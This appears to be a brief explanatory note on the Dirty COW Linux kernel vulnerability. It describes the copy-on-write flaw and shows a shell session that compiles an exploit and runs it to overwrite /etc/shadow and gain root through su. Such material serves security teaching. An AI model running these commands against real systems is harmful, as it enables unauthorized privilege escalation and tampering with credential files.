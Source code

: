 - - -
**Dirty Cow** is a Linux Kernel exploit
- Kernel exploits give superuser power to the hacker
It forces the Linux kernel to write arbitrary data to restricted system files
- This resulted from a vulnerability in copy-on-write (COW) function used in Linux for memory management

With Dirty COW, an attacker could overwrite a system file
- It could be used to basically control operation of the memory management
	- Following overwrite `/etc/shadow` file using the exploit for which superuser (su) privilege is needed

```shell
[user@localhost]$ gcc -lpthread dirtyCOW.c -o dirtyCOW
[user@localhost]$ ./dirtyCOW /etc/shadow "root:X:1:0:99999:1:::"
[user@localhost]$ su root
********
[user@localhost]# whoami
[user@localhost]# root
```



